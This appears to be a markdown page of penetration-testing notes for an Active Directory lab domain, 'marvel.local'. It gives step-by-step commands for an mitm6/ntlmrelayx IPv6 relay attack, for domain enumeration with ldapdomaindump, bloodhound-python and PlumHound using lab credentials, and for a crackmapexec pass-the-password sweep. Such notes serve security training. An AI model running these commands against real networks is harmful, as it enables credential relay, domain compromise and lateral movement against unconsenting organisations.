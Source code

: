 
IPv6 attacks=>

1.Open **mitm6** for target domain
```bash
sudo mitm6 -d marvel.local
```

2.At the same time, open **ntlmrelayx.py**
```bash
ntlmrelayx.py -6 -t ldaps://192.168.138.136 -wh fakewpad.marvel.local -l lootme
```

3.You will get results like this from **'/home/kali/lootme/domain_computers.html'**


# Post Compromise Enumeration for Active Directory

Domain Enumeration with **ldapdomaindump**=>
1.Run below command
```bash
sudo ldapdomaindump ldaps://192.168.138.136 -u 'MARVEL\fcastle\' -p Password1
```
2.Then do **ls** command to see all things.

Domain Enumeration with **bloodhound-python**=>
1.Run below command
**-ns option** means your DC(Domain Controller's IP)

```bash
sudo bloodhound-python -d MARVEL.local -u fcastle -p Password1 -ns [DC-IP] -c all 
```

2.Then do **ls** command to see all things.
If you want to see via GUI, you just upload .json file into Bloodhound.

Domain Enumeration with **Plumhound**=>

When you do below command, **Bloodhound** should be up!
1.
```bash
sudo python3 PlumHound.py --easy -p [YOUR_PASS]
```

2.Another thing for all.
```bash
sudo python3 PlumHound.py -x tasks/default.tasks -p [YOUR_PASS]
```

3.Finally, by opening Firefox, you can look at results.

# Post Compromise Attacks for Active Directory

Pass the Password=>
```bash
crackmapexec smb 10.0.0.0/24 -u fcastle -d MARVEL.local -p Password1
```
